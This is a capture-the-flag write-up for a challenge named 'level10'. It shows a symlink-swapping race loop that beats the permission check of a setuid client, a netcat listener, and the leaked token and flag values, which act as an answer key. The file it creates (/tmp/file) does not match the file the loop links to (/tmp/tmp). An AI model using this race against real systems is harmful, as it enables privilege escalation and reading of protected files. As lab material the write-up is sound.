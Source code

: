 # level10

- level10 is a client that read the file and send it if we have acces to it

- The binary is executed as the owner of the file but check who really run it to know if we have acces to the file
    > $ ./level10 ./token 0
    > You don't have access to ./token

- We can exploit the time between the check of the right and the opening of the
    file by creating a symlink to a file we have the right to read and switching
    rapidly beetween the file and the token
    ```sh
    $ touch /tmp/file
    $ while true; do
        ln -fs /home/user/level10/token /tmp/token
        ln -fs /tmp/tmp /tmp/token
      done
    ```

- Then we create our server and listen infinitly to the level10 port (6969)
    ```sh
    $ nc -k -l 0 6969
    ```

- The we start the `./level10` infinitly
    ```sh
    $ while true; do
        ./level10 /tmp/token 0
      done
    ```
    > [...]
    > .*( )*.
    > woupa2yuojeeaaed06riuj63c
    > .*( )*.
    > [...]

- `$ su flag10` && `$ getflag`
    > Check flag.Here is your token : feulo4b72j7edeahuete3no7c


